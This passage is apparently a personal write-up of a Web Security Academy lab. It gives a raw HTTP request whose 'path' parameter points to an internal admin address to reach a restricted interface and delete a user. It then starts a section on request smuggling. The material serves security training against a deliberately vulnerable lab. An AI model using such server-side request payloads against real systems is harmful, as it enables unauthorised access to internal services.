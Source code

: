 ![image](https://github.com/user-attachments/assets/2d1408fe-c72d-409d-b0c3-91b91c925179)

So we kno wthis request is vulnerable to open redirect vuln.

```
POST /product/nextProduct HTTP/2
Host: 0a0b00b904224216812f02e000c200fb.web-security-academy.net
Cookie: session=QvN0T7haiiqeA23Dj469LB2JguLKpox9; session=P4WEAbjdRZvaq0hOL51o9GLtuFabAyNd
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0b00b904224216812f02e000c200fb.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 54

currentProductId=1&path=http://192.168.0.12:8080/admin
```

So we use this API endpoint in StoredAPI to interact with the above function

![image](https://github.com/user-attachments/assets/03beb472-a90b-4393-bb38-6fa417089b22)

Results

![image](https://github.com/user-attachments/assets/9c8261b9-1c91-458c-b191-13ff12dbba94)

Next we click delete Carlos user to obtain delete API request

![image](https://github.com/user-attachments/assets/d3365674-00f5-4502-812f-444ecf140305)

exploited. the end.

![image](https://github.com/user-attachments/assets/64523a37-129c-4a1e-85a4-64c48adbb899)



------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Request Smuggling

**Tips: Request smuggling allows an attacker to add another request in the request. this can bypass security control and lead to unauthorized privileges and accesses. This attack can be found in HTTP 1 and 2(depends on back-end architecture)**
